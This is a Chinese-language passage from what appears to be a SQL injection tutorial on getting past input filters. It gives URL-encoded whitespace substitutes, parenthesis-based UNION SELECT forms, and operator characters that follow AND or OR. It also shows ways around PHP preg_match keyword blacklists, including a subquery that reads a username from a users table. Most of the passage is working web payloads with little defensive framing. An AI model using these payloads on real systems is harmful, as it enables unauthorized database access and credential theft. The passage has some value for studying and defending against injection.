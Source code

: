 例子：

```
'%0A%09UNION%0CSELECT%A0NULL%20%23 
```

括号也可以用来绕过过滤空格的情况：

| 28 | ( |
| 29 | ) |

例子：

```
UNION(SELECT(column)FROM(table)) 
```

#### AND 或 OR 后面可以跟的字符

| 20 | Space |
| 2B | + |
| 2D | - |
| 7E | ~ |
| 21 | ! |
| 40 | @ |

例子：

```
SELECT 1 FROM dual WHERE 1=1 AND-+-+-+-+~~((1)) 
```

dual 是一个虚拟表，可以用来做测试。

### 几个针对黑名单绕过的例子

#### 基于关键字的黑名单

| 过滤关键字 | and  or |
| php 代码 | preg_match('/(and&#124;or)/i',$id) |
| 会过滤的攻击代码 | 1 or 1=1          1 and 1=1 |
| 绕过方式 | 1 &#124;&#124; 1=1         1 && 1=1 |

下面这种方式你需要已经知道一些表和字段名（可以利用 substring 函数去一个一个获得 information_schema.columns 表中的数据）

| 过滤关键字 | and  or union |
| php 代码 | preg_match('/(and&#124;or&#124;union)/i',$id) |
| 会过滤的攻击代码 | union select user,password from users |
| 绕过方式 | 1 && (select user from users where userid=1)='admin' |
